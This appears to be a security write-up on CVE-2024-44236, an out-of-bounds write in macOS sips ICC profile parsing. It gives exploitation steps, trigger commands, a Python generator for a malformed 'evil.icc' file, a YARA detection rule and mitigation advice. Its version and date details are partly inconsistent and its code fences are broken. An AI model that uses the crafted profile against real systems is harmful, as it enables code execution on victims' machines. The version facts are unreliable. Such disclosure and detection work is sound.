 # WWW2Exec - sips ICC Profile Out-of-Bounds Write (CVE-2024-44236)


## Overview

An out-of-bounds **zero-write** vulnerability in Apple macOS **Scriptable Image Processing System** (`sips`) ICC profile parser (macOS 15.0.1, `sips-307`) allows an attacker to corrupt heap metadata and pivot the primitive into full code-execution. The bug is located in the handling of the `offsetToCLUT` field of the `lutAToBType` (`mAB `) and `lutBToAType` (`mBA `) tags. If attackers set `offsetToCLUT == tagDataSize`, the parser erases **16 bytes past the end of the heap buffer**. Heap spraying lets the attacker zero-out allocator structures or C++ pointers that will later be dereferenced, yielding an **arbitrary-write-to-exec** chain (CVE-2024-44236, CVSS 7.8).

> Apple patched the bug in macOS Sonoma 15.2 / Ventura 14.7.1 (October 30, 2024). A second variant (CVE-2025-24185) was fixed in macOS 15.5 and iOS/iPadOS 18.5 on April 1, 2025.

## Vulnerable Code

```c
// Pseudocode extracted from sub_1000194D0 in sips-307 (macOS 15.0.1)
if (offsetToCLUT <= tagDataSize) {
    // BAD ➜ zero 16 bytes starting *at* offsetToCLUT
    for (uint32_t i = offsetToCLUT; i < offsetToCLUT + 16; i++)
        buffer[i] = 0;            // no bounds check vs allocated size!
}
```
```
## Exploitation Steps

1. **Craft a malicious `.icc` profile**

   * Set up a minimal ICC header (`acsp`) and add one `mAB ` (or `mBA `) tag.
   * Configure the tag table so the **`offsetToCLUT` equals the tag size** (`tagDataSize`).
   * Place attacker-controlled data right after the tag so that the 16 zero writes overlap allocator metadata.

2. **Trigger parsing with any sips operation that touches the profile**

   ```bash
   # verification path (no output file needed)
   sips --verifyColor evil.icc
   # or implicitly when converting images that embed the profile
   sips -s format png payload.jpg --out out.png
   ```

3. **Heap metadata corruption ➜ arbitrary write ➜ ROP**  
   On Apple’s default **`nano_zone` allocator**, metadata for 16-byte slots lives **immediately after** the aligned 0x1000 slab. By placing the profile’s tag at the end of such a slab, the 16 zero-writes clobber `meta->slot_B`. After a subsequent `free`, the poisoned pointer is enqueued in the tiny free list, letting the attacker **allocate a fake object at an arbitrary address** and overwrite a C++ vtable pointer used by sips, finally pivoting execution to a ROP chain stored in the malicious ICC buffer.

### Quick PoC generator (Python 3)

```python
#!/usr/bin/env python3
import struct, sys

HDR = b'acsp'.ljust(128, b'\0')          # ICC header (magic + padding)
TAGS = [(b'mAB ', 132, 52)]              # one tag directly after header
profile  = HDR
profile += struct.pack('>I', len(TAGS))  # tag count
profile += b''.join(struct.pack('>4sII', *t) for t in TAGS)

mab = bytearray(52)                      # tag payload (52 bytes)
struct.pack_into('>I', mab, 44, 52)      # offsetToCLUT = size (OOB start)
profile += mab

open('evil.icc', 'wb').write(profile)
print('[+] Wrote evil.icc (%d bytes)' % len(profile))
```
```
### YARA detection rule

```yara
rule ICC_mAB_offsetToCLUT_anomaly
{
    meta:
        description = "Detect CLUT offset equal to tag length in mAB/mBA (CVE-2024-44236)"
        author       = "HackTricks"
    strings:
        $magic = { 61 63 73 70 }          // 'acsp'
        $mab   = { 6D 41 42 20 }          // 'mAB '
        $mba   = { 6D 42 41 20 }          // 'mBA '
    condition:
        $magic at 0 and
        for any i in (0 .. 10):           // up to 10 tags
            (
              ($mab at 132 + 12*i or $mba at 132 + 12*i) and
              uint32(132 + 12*i + 4) == uint32(132 + 12*i + 8) // offset == size
            )
}
```
```
## Impact

Opening or processing a crafted ICC profile leads to remote **arbitrary code execution** in the context of the invoking user (Preview, QuickLook, Safari image rendering, Mail attachments, etc.), bypassing Gatekeeper because the profile can be embedded inside otherwise benign images (PNG/JPEG/TIFF).

## Detection & Mitigation

* **Patch!** Ensure the host is running macOS ≥ 15.2 / 14.7.1 (or iOS/iPadOS ≥ 18.1).  
* Deploy the YARA rule above on email gateways and EDR solutions.  
* Strip or sanitise embedded ICC profiles with `exiftool -icc_profile= -overwrite_original <file>` before further processing on untrusted files.  
* Harden Preview/QuickLook by running them inside sandboxed “transparency & modernisation” VMs when analysing unknown content.  
* For DFIR, look for recent execution of `sips --verifyColor` or `ColorSync` library loads by sandboxed apps in the unified log.

## References

* Trend Micro Zero Day Initiative advisory ZDI-24-1445 – “Apple macOS ICC Profile Parsing Out-of-Bounds Write Remote Code Execution (CVE-2024-44236)”  
  https://www.zerodayinitiative.com/advisories/ZDI-24-1445/  
* Apple security updates HT213981 “About the security content of macOS Sonoma 15.2”  
  https://support.apple.com/en-us/HT213981

